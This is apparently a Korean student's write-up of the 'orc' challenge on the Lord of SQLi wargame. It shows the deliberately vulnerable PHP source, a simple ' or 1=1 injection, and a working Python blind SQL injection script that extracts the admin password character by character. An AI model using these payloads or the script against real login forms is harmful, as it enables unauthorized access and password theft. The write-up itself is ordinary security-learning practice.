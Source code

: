 # LOS - orc

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```

이 문제는 두가지를 동시에 해결해야 한다. 

일단 처음에 id를 뽑아내는 부분을 거쳐서 "Hello admin"을 출력시키고 addslashes함수를 우회하여 pw를 맞춰야 한다. 

먼저, 지금까지 해왔던 방법으로 "Hello admin"을 출력해보자. 

간단하게 or 1=1 --' 를 주는 것만으로도 쉽게 출력이 되는 것을 볼 수 있다. 

```mysql
query : select id from prob_orc where id='admin' and pw='' or 1 = 1 --''
```

두번째 문제가 좀 복잡한데, 먼저 addslashes에 대해서 알아야 한다. 

검색해보니 addslashes함수는 < ', ", \, \x00 > 에 대해서 필터링할 수 있게 앞의 문자가 오면 문자 앞에 \ 붙여서 query에 넣어준다고 한다. 

그럼 내가 넣어준 query는 다음과 같이 변하게 될 것이다. 

```mysql
query : select id from prob_orc where id='admin' and pw='\' or 1 = 1 --\''
```

이렇게 되면 or문이 제대로 작동하지 않을 것이고 당연히 pw는 제대로 나오지 않게 된다. 

여기서부터 진짜 해메다가 도움을 받아 풀게되었다.(모르는 건 배워야 한다는 마음으로..)
php코드에서 마지막 부분쪽을 보면 내가 입력한 값($_GET['pw'])와 뽑아온 패스워드 값($result['pw'])를 비교하는 구문이 있다. 이 구문이 있기때문에 정확히 똑같은 값을 입력해 주어야 답을 얻을 수 있다. 
여기서부터는 url에 인자를 계속 바꿔가면서 주기가 어려워서 python 코드를 이용했다. 

```python
import requests
cooki = {'PHPSESSID': "obnllqh3qvb9793r8fk8n6jkij"}
url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php"
i = 1
key = "Hello admin"
pw_len = 0
while True:
    params = {'pw': "1' or length(pw)="+str(i)+' #'}
    res = requests.get(url, params, cookies=cooki)

    if key in res.text:
        pw_len = i
        break
    i = i + 1
    print i
print pw_len
for j in range(1,pw_len+1):
    for k in range(48, 123):
        if 58 <= k < 65:
            continue
        if 91 <= k < 97:
            continue
        params = {'pw': "1' or id='admin' and ascii(substr(pw,"+str(j)+",1)) = "+str(hex(k))+"#"}
        res2 = requests.get(url, params, cookies=cooki)
       # print res.text
        if key in res2.text:
            print str(j) + " : " + chr(k)

```

코드를 처음 짜봐서 굉장히 애를 많이 먹었는데, 막혀서 공부하다 알게된 부분이

- request.get으로 값을 보낼때 쿠키 값을 보내지 않으면 redirection이 뜬다. 
- request.get의 return value에서 어떤 속성을 주느냐에 따라 다양한 값이 나올 수 있다.
- python에서는 값을 감싸서 타입을 정해주는 것만으로 변환이 가능하다.

등이 있는데 python에서 제공해주는 많은 기능들로 인해서 편리하게 코드를 짤 수 있었다. 

코드에 대한 설명은 간단히 하자면 지금까지 수작업으로 보내줬던 값을 string으로 바꾸어 reqeusts를 이용해 get방식으로 보내 return value를 분석해 내가 원하는 값("Hello admin")이 뜨면 출력해주는 식으로 구현하였다. 

비밀번호의 길이를 먼저 찾고 한 글자씩 비교하면서 맞추어 나가는 식으로 구현된 코드라 효율적인지는 모르겠지만 시간이 많이 걸렸다. 

![1565252187016](C:\Users\qkrwl\Documents\web\los\LOS - orc-clear.png)